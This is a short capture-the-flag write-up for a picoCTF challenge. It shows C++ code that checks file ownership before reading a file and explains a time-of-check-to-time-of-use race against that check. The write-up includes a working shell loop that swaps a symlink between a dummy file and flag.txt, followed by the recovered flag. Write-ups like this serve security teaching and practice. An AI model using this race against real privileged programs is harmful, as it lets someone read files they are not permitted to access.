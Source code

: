 ```cpp
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
:::

it will check permission of the file. if this file is not belong to the user, it will prevent user from reading it

We can create a symbol link and a `temp.txt` file, and also writing a script. The script will continully re-link the symbol link between `flag.txt` and `temp.txt`. We call `./txtreader` with argv as the symbol link. When the link point at `temp.txt`, it will pass the check. But when program reading the content, the link change to `flag.txt`. So we can reading the content with passing the check.

here is the script:
:::spoiler sol.sh
```sh
while :
do
   ln -sf ./temp.txt fflag
   ln -sf ./flag.txt fflag
done
```
:::

`picoCTF{ToctoU_!s_3a5y_007659c9}`